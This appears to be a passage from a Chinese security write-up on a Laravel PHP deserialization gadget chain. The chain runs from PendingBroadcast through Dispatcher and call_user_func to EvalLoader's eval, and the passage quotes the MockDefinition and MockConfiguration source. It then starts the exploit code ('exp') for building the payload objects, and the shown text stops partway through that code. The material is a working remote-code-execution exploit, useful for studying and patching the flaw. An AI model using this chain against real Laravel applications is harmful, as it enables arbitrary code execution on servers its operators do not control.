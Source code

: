 call_user_func函数在第一个参数为数组的时候，第一个参数就是我们选择的类，第二个参数是类下的方法；所以这里直接去到EvalLoader类，去执行load方法从而调用到eval函数；这里发现存在参数，而且参数必须是MockDefinition类的实例,也即是意味着我们connection需要为MockDefinition类的实例,并且要执行`eval`,必须使得`if`返回`false`

接追溯到MockDefinition类:

```
public function __construct(MockConfiguration $config, $code)
    `{`
        if (!$config-&gt;getName()) `{`
            throw new \InvalidArgumentException("MockConfiguration must contain a name");
        `}`
        $this-&gt;config = $config;
        $this-&gt;code = $code;
    `}`
public function getClassName()
    `{`
        return $this-&gt;config-&gt;getName();
    `}`
public function getCode()
    `{`
        return $this-&gt;code;
    `}`
```

全局搜索`getName()`方法，并且实现`MockConfiguration`接口,找到了`MockConfiguration.php`中:

```
public function getName()
    `{`
        return $this-&gt;name;  //$this-&gt;name是可控的
    `}`
```

因此当我们使得`$this-&gt;config`为该类时，那么调用getName能够返回任意值，从而使得该任意值组成的类不存在而调用eval,而`$this-&gt;code`就是拼接在`eval`中的命令

贴下完成的exp:

```
&lt;?php

namespace Illuminate\Broadcasting`{`
    use Illuminate\Contracts\Events\Dispatcher;
    class PendingBroadcast
    `{`
        protected $event;
        //__destruct析构方法是调用$this-&gt;events类的dispatch方法，这里是调用Dispatcher类的dispatch方法
        protected $events;
        public function __construct($events, $event)
        `{`
        //event是dispatch方法的参数,也就是$command,而$command需要实现ShouldQueue接口,因此这里$event是选择BroadcastEvent类
        $this-&gt;event = $event;
        $this-&gt;events = $events;
        `}`
    `}`
`}`

namespace Illuminate\Broadcasting`{`
    class BroadcastEvent`{`
        //这里$connection作为call_user_func的第二个参数，也就是静态类EvalLoader中load()方法的参数，也就是$definition
        public $connection;
        public function __construct($connection)
        `{`
            $this-&gt;connection = $connection;
        `}`
    `}`
`}`
```